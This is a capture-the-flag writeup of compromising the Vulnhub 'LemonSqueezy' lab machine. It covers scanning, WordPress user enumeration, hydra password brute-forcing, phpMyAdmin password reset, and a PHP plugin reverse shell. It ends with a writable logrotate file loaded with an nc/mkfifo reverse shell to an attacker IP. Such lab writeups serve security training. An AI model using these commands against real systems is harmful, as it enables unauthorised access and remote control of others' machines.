# Vulnhub "LemonSqueezy" Writeup by XMBomb

Same thing as we do every night, take over the wo... eh ports!

```bash
# Nmap 7.91 scan initiated Fri Dec 18 10:20:01 2020 as: nmap -v -sC -sV -Pn -oN nmap 192.168.1.249
Nmap scan report for 192.168.1.249
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 18 10:20:13 2020 -- 1 IP address (1 host up) scanned in 12.50 seconds
```

The report shoes that only port 80(http) seems to be open

Visiting it, shows us a default debian apache page. This can be an indication that we are not using the correct hostname (vhost), but let's explore further.

I ran a gobuster on the site.
```bash
kali@kali:~/vulnhub/boxes/LemonSqueezy$ gobuster dir -u http://lemonsqueezy -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://lemonsqueezy
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/18 10:24:35 Starting gobuster
===============================================================
/wordpress (Status: 301)
/manual (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/12/18 10:25:23 Finished
===============================================================
```
`/wordpress/` is definitely interesting, let's see what's on there


```
wpscan --url http://192.168.1.249/wordpress/ > wpscan.log

[+] Upload directory has listing enabled: http://192.168.1.249/wordpress/wp-content/uploads/                                                                                                                                                                                                                                 
 | Found By: Direct Access (Aggressive Detection)                                                                                                                                                                                                                                                                            
 | Confidence: 100%
```
Upload directory could have some interesting files 
http://192.168.1.249/wordpress/wp-content/uploads/

But not in this case unfortunately
For this machine I learned a bit more about wpscan, for example user enumeration:
```
wpscan --url http://192.168.1.249/wordpress/ -e u
[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] lemon
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Let's do a login with a wrong password and check out the POST request in Burp:
```
POST /wordpress/wp-login.php HTTP/1.1
Host: lemonsqueezy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://lemonsqueezy/wordpress/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://lemonsqueezy
Connection: close
Cookie: comment_author_2941158bd0cbcb980cbef138a86b1b99=test+%7B%7B+5+%2A+5+%7D%7D; comment_author_email_2941158bd0cbcb980cbef138a86b1b99=test%40test.com; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=orange&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2Flemonsqueezy%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

It does not look like WP does any way of blocking authentication attempts, so we can try to bruteforce the users password.
https://linuxconfig.org/test-wordpress-logins-with-hydra-on-kali-linux

```bash
kali@kali:~/vulnhub/boxes/LemonSqueezy$ hydra lemonsqueezy -L users.txt -P /home/kali/htb/rockyou.txt http-post-form "/wordpress/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-18 11:16:19
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking http-post-form://lemonsqueezy:80/wordpress/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[80][http-post-form] host: lemonsqueezy   login: orange   password: <snip>
```

looks like it actually found a password for the user `orange`, we can log into wp-admin with that.
The users has an interesting draft:


From the discovery we know there is a /phpmyadmin, let's try loggin in with `root` and the password we discovered



Looking around we can see that the orange user is actually not an admin, but the 'lemon' user is.
I tried decrypting the hash, but it did not really succeed within a reasonable time frame,


An easy option is just to change the password to the same one as orange
This allows us to log in with admin privileges


A wordpress admin has the possibility to upload plugins, we can use this to craft a malicious plugin, which will execute a reverse shell
Source: https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

So I created a small php reverse shell, and zipped it to be a valid plugin
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.241/1234 0>&1'");
?>
zip plugin.zip plugin.php
```
After trying a bunch of options, it became evident that the target was hardened against this type of attack.


Just to be sure this was the case, I fired uf `msfconsole` and rand the exploit via metasploit:



But there is another way we can exploit this, by writing malicious PHP code to a file accessible by the server (and user)



Execute the reverse shell command via a GET request, and get a shell!


Let's add some quality of life features
```bash
python -c "import pty;pty.spawn('/bin/bash')"
crtl-z
stty raw -echo
fg
```
I transferred linPEAS via wget and looked at the list of users


This section seemed to be the most interesting one:
```
[+] Readable files belonging to root and readable by me but not world readable                                                                                │
-rw-r----- 1 root www-data 68 Apr 13  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php                                                                        │
-rw-r----- 1 root www-data 0 Apr 13  2020 /var/lib/phpmyadmin/config.inc.php                                                                                  │
-rw-r----- 1 root www-data 505 Apr 13  2020 /etc/phpmyadmin/config-db.php                                                                                     │
-rw-r----- 1 root www-data 8 Apr 13  2020 /etc/phpmyadmin/htpasswd.setup
```
Looking at the permissions, we are allowed to write to /etc/logrotate.d/logrotate
```bash

html/wordpress$ ls -lah /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate 

chown root:root logrotate
chmod 677 logrotate

www/html/wordpress$ cat /etc/logrotate.d/logrotate
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.241 1234 >/tmp/f
```


